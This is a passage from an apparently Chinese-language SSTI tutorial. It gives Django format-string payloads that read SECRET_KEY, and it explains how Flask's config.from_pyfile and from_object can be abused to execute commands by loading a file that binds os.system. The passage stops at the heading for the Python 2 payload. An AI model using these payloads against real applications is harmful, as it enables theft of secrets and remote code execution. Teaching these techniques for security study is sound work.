 ```
{user.groups.model._meta.app_config.module.admin.settings.SECRET_KEY}
{user.user_permissions.model._meta.app_config.module.admin.settings.SECRET_KEY}
```

2.Flask/Jinja2

config 是Flask模版中的一个全局对象，它是一个类字典的对象，它包含了所有应用程序的配置值。在大多数情况下，它包含了比如数据库链接字符串，连接到第三方的凭证，SECRET_KEY等敏感值。虽然config是一个类字典对象，但是通过查阅文档可以发现 config 有很多神奇的方法：`from_envvar`, `from_object`, `from_pyfile`, 以及`root_path`。这里我们利用 `from_pyfile` 和 `from_object` 来命令执行。

```python
def from_pyfile(self, filename, silent=False):

    filename = os.path.join(self.root_path, filename)
    d = types.ModuleType('config')
    d.__file__ = filename
    try:
        with open(filename) as config_file:
            exec(compile(config_file.read(), filename, 'exec'), d.__dict__)
    except IOError as e:
        if silent and e.errno in (errno.ENOENT, errno.EISDIR):
            return False
        e.strerror = 'Unable to load configuration file (%s)' % e.strerror
        raise
    self.from_object(d)
    return True


def from_object(self, obj):

    if isinstance(obj, string_types):
        obj = import_string(obj)
    for key in dir(obj):
        if key.isupper():
            self[key] = getattr(obj, key)
```

这个方法将传入的文件使用 compile() 这个python 的内置方法将其编译成字节码(.pyc),并放到 exec() 里面去执行，注意最后一个参数 `d.__dict__`翻阅文档发现，这个参数的含义是指定 exec 执行的上下文，

这个方法会遍历 Obj 的 dict 并且找到大写字母的属性，将属性的值给 self[‘属性名’]，所以说如果我们能让 from_pyfile 去读这样的一个文件

```
from os import system
SHELL = system
```

到时候我们就能通过 config[‘SHELL’] 调用 system 方法了

那么文件怎么写入呢？Jinja2 有沙盒机制，我们必须通过绕过沙盒的方式写入我们想要的文件，具体的沙盒绕过,大佬的一篇博文[python 沙盒逃逸备忘](http://www.k0rz3n.com/2018/05/04/Python 沙盒逃逸备忘/)

payload:

### 1.python2
